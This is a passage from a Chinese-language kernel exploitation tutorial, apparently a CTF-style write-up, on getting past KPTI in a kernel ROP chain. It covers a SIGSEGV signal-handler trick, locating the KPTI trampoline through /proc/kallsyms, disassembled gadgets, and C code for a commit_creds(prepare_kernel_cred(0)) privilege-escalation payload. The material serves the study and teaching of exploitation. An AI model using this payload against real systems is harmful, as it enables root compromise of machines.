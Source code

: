 现在加个kpti。如果继续运行刚刚得到的krop payload，会提示userland的Segmentation fault而不是kernel的崩溃。原因是我们其实已经回到user mode了，但页表还是kernel的，而userland的代码页全部不可执行。绕过方法如下：
1. 用signal handler：目前的问题是userland会得到SIGSEGV，可以对这个signal加个调用get_shell函数的signal handler，如`signal(SIGSEGV, get_shell);`。神奇的地方在于，虽然get_shell()函数本身在不可执行的代码页，但是当触发SIGSEGV后就能正常执行了
2. 用KPTI trampoline：如果syscall正常返回，kernel里一定有一块代码用于将页表从kernel换回userland。所以我们可以尝试重用那块代码。这块代码就叫KPTI trampoline，调用swapgs然后iretq

KPTI trampoline在swapgs_restore_regs_and_return_to_usermode()函数中，继续用/proc/kallsyms找到其地址：
```sh
cat /proc/kallsyms | grep swapgs_restore_regs_and_return_to_usermode
```
这个函数开头有一堆pop，直接rop到开头倒是可以，但没必要，只会徒增ropchain的长度。我们要的KPTI trampoline在`swapgs_restore_regs_and_return_to_usermode + 22`，即函数的第一个mov指令处。gadgets如下：
```sh
.text:FFFFFFFF81200F89 loc_FFFFFFFF81200F89:
.text:FFFFFFFF81200F89                               pop     rax
.text:FFFFFFFF81200F8A                               pop     rdi
.text:FFFFFFFF81200F8B                               call    cs:off_FFFFFFFF82040088
.text:FFFFFFFF81200F91                               jmp     cs:off_FFFFFFFF82040080
...
.text.native_swapgs:FFFFFFFF8146D4E0                 push    rbp
.text.native_swapgs:FFFFFFFF8146D4E1                 mov     rbp, rsp
.text.native_swapgs:FFFFFFFF8146D4E4                 swapgs
.text.native_swapgs:FFFFFFFF8146D4E7                 pop     rbp
.text.native_swapgs:FFFFFFFF8146D4E8                 retn
...
.text:FFFFFFFF8120102E                               mov     rdi, cr3
.text:FFFFFFFF81201031                               jmp     short loc_FFFFFFFF81201067
...
.text:FFFFFFFF81201067                               or      rdi, 1000h
.text:FFFFFFFF8120106E                               mov     cr3, rdi
...
.text:FFFFFFFF81200FC7                               iretq
```
那么ropchain的最后一段构造如下：`KPTI_trampoline|dummy RAX|dummy RDI|RIP|CS|RFLAGS|SP|SS`
```c
void overflow(void){
    // ...
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_trampoline; //swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    // ...
}
```
这段payload甚至比单独找swapgs和iretq还要简单，而且即使没有kpti也能用（大部分情况kpti和smep搭配着一起启用）。因此，推荐默认情况下直接用这段。栈迁移情况下就把这段放进假stack即可
